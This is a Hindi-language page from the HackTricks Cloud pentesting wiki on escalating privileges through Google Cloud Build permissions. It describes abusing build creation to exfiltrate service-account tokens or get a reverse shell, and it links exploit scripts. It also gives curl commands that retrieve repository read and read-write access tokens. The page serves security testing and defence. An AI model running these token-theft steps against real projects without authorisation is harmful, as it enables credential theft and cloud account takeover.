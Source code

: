 # GCP - Cloudbuild Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudbuild

Cloud Build के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

इस अनुमति के साथ आप **एक क्लाउड बिल्ड सबमिट कर सकते हैं**। cloudbuild मशीन में **डिफ़ॉल्ट रूप से cloudbuild सेवा खाते का एक टोकन** होगा: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`। हालाँकि, आप क्लाउडबिल्ड कॉन्फ़िगरेशन में **परियोजना के भीतर किसी भी सेवा खाते** को **संकेतित** कर सकते हैं।\
इसलिए, आप बस मशीन को अपने सर्वर पर टोकन को एक्सफिल्ट्रेट करने के लिए बना सकते हैं या **इसके अंदर एक रिवर्स शेल प्राप्त कर सकते हैं और खुद को टोकन प्राप्त कर सकते हैं** (टोकन वाला फ़ाइल बदल सकता है)।

आप मूल एक्सप्लॉइट स्क्रिप्ट [**यहाँ GitHub पर**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) पा सकते हैं (लेकिन जिस स्थान से यह टोकन ले रहा है वह मेरे लिए काम नहीं किया)। इसलिए, [**यहाँ एक स्क्रिप्ट देखें जो एक कमजोर वातावरण के निर्माण, शोषण और सफाई को स्वचालित करती है**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) और क्लाउडबिल्ड मशीन के अंदर एक रिवर्स शेल प्राप्त करने के लिए एक पायथन स्क्रिप्ट और [**यहाँ इसे चुराने के लिए**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (कोड में आप देख सकते हैं कि अन्य सेवा खातों को कैसे निर्दिष्ट किया जाए)**।**

अधिक गहन व्याख्या के लिए, [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/) पर जाएं।

### `cloudbuild.builds.update`

**संभावित रूप से** इस अनुमति के साथ आप **एक क्लाउड बिल्ड को अपडेट कर सकते हैं और बस सेवा खाता टोकन चुरा सकते हैं** जैसे कि पिछले अनुमति के साथ किया गया था (लेकिन दुर्भाग्यवश इस लेखन के समय मैं उस API को कॉल करने का कोई तरीका नहीं ढूंढ सका)।

TODO

### `cloudbuild.repositories.accessReadToken`

इस अनुमति के साथ उपयोगकर्ता **पुस्तकालय तक पहुँचने के लिए उपयोग किया जाने वाला पढ़ने का एक्सेस टोकन** प्राप्त कर सकता है:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
{% endcode %}

### `cloudbuild.repositories.accessReadWriteToken`

इस अनुमति के साथ उपयोगकर्ता **पढ़ने और लिखने की पहुँच टोकन** प्राप्त कर सकता है जिसका उपयोग भंडार तक पहुँचने के लिए किया जाता है:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

### `cloudbuild.connections.fetchLinkableRepositories`

इस अनुमति के साथ आप **उन रिपोजिटरीज़ को प्राप्त कर सकते हैं जिन तक कनेक्शन की पहुँच है:** 

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
